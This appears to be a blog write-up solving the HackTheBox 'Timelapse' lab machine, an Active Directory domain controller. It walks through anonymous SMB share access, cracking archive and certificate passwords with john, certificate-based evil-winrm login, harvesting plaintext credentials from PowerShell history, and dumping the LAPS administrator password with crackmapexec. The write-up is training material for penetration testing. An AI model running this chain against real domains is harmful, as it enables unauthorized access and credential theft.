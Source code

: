 ```yaml
---
layout: post
title: HackTheBox - Timelapse
category: HackTheBox
tags: Machines SMB LAPS Brute-Force
date: 2022-07-01 17:02 +0300
---
```


![Machine logo](/assets/hackthebox/timelapse/Timelapse.png){:height="414px" width="615px"}

## Configuration:
It is very useful to append `/etc/hosts/` with ip address of the machine. It is useful to get subdomains and to not memorize the address every time.
```zsh
$ echo '10.10.11.152 timelapse.htb' | sudo tee -a /etc/hosts 
```

## Reconnaissance:
```zsh
$ nmap -p- timelapse.htb -Pn
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-29 11:10 UTC
Nmap scan report for timelapse.htb (10.10.11.152)
Host is up (0.056s latency).
Not shown: 65517 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5986/tcp  open  wsmans
9389/tcp  open  adws
49667/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49696/tcp open  unknown
62020/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 111.03 seconds
```

It looks like an `Active Directory` domain.

## Enumeration:
Let's start with smb enumeration. It is also can be done by simple `smbclient`.
```zsh
$ crackmapexec smb timelapse.htb -u 'a' -p '' --shares
SMB         timelapse.htb   445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
SMB         timelapse.htb   445    DC01             [+] timelapse.htb\a: 
SMB         timelapse.htb   445    DC01             [+] Enumerated shares
SMB         timelapse.htb   445    DC01             Share           Permissions     Remark
SMB         timelapse.htb   445    DC01             -----           -----------     ------
SMB         timelapse.htb   445    DC01             ADMIN$                          Remote Admin
SMB         timelapse.htb   445    DC01             C$                              Default share
SMB         timelapse.htb   445    DC01             IPC$            READ            Remote IPC
SMB         timelapse.htb   445    DC01             NETLOGON                        Logon server share 
SMB         timelapse.htb   445    DC01             Shares          READ            
SMB         timelapse.htb   445    DC01             SYSVOL                          Logon server share
```

We can read 2 shares without login, now we connect with `smbclient` and search.
```zsh
$ smbclient -N \\\\timelapse.htb\\Shares\\
smb: \> dir
  .                                   D        0  Mon Oct 25 15:39:15 2021
  ..                                  D        0  Mon Oct 25 15:39:15 2021
  Dev                                 D        0  Mon Oct 25 19:40:06 2021
  HelpDesk                            D        0  Mon Oct 25 15:48:42 2021

                6367231 blocks of size 4096. 1680031 blocks available
smb: \> cd Dev
smb: \Dev\> dir
  .                                   D        0  Mon Oct 25 19:40:06 2021
  ..                                  D        0  Mon Oct 25 19:40:06 2021
  winrm_backup.zip                    A     2611  Mon Oct 25 15:46:42 2021

                6367231 blocks of size 4096. 1680031 blocks available
smb: \Dev\> get winrm_backup.zip
smb: \Dev\> cd ..
smb: \> cd HelpDesk
smb: \HelpDesk\> dir
  .                                   D        0  Mon Oct 25 15:48:42 2021
  ..                                  D        0  Mon Oct 25 15:48:42 2021
  LAPS.x64.msi                        A  1118208  Mon Oct 25 14:57:50 2021
  LAPS_Datasheet.docx                 A   104422  Mon Oct 25 14:57:46 2021
  LAPS_OperationsGuide.docx           A   641378  Mon Oct 25 14:57:40 2021
  LAPS_TechnicalSpecification.docx      A    72683  Mon Oct 25 14:57:44 2021

                6367231 blocks of size 4096. 1680031 blocks available
smb: \HelpDesk\> mget *
```

winrm_backup.zip archive has a password, we will try to brute it with `john`.
```zsh
$ zip2john winrm_backup.zip > hash
$ john --wordlist=rockyou.txt hash
supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)
```

legacyy_dev_auth.pfx is a `PKCS#12` file format, contains the SSL certificate (public keys) and the corresponding private keys. But it requires password to extract. Let's convert it to hash and brute it again!
```zsh
$ pfx2john legacyy_dev_auth.pfx > hash
$ john --wordlist=rockyou.txt hash
thuglegacy       (legacyy_dev_auth.pfx)
```

Now we got the password and able to extract a certificate and a private key. We use `openssl` library to do that.
```zsh
$ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out private.key
$ openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out certificate.crt
```

## user.txt
Now we have a certificate and a private key. We can use them to auth into the machine with `evil-winrm`.
```zsh
$ evil-winrm -i timelapse.htb -S -k private.key -c certificate.crt
*Evil-WinRM* PS C:\Users\legacyy\Documents>
*Evil-WinRM* PS C:\Users\legacyy\Documents> cd ..
*Evil-WinRM* PS C:\Users\legacyy> type Desktop\user.txt
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX # Edited
```

## root.txt
Here we have to search. By searching in `Program Files` folder, we have to note that `LAPS` in installed and enabled. We can upload and execute `winPEAS`. It will show us a command history file.

![PowerShell history file](/assets/hackthebox/timelapse/history_file.png)

Let's open it!

```powershell
*Evil-WinRM* PS C:\Users\legacyy\Downloads> type C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```

We can see the credentials here: `svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV`.

svc_deploy user is a member of `LAPS_Readers` group, which can extract `Local Administrator` password. We are using `crackmapexec` to do that.

```zsh
$ crackmapexec smb timelapse.htb -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV' --laps  
SMB         timelapse.htb   445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
SMB         timelapse.htb   445    DC01             [-] DC01\administrator:ImM+fZ5b;G82H&S+5.&5)sW} STATUS_LOGON_FAILURE
```

Then, we got it: `administrator:ImM+fZ5b;G82H&S+5.&5)sW}`. It's time to log in and get the flag!

```zsh
$ evil-winrm -i timelapse.htb -u 'administrator' -p 'ImM+fZ5b;G82H&S+5.&5)sW}' -S
*Evil-WinRM* PS C:\Users\Administrator\Documents> gci -Path C:\ -Recurse -Include 'root.txt'
    Directory: C:\Users\TRX\Desktop
-ar---         7/1/2022   9:25 AM             34 root.txt
*Evil-WinRM* PS C:\Users\Administrator\Documents> type ../../TRX/Desktop/root.txt
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX # Edited
```

It was in unusual location, so we had to search for it with `Get-ChildItem`.

## Conclusion
I've really enjoyed the box. It was interesting to learn some new things.

Thank you for reading, I hope it was useful for you ❤️
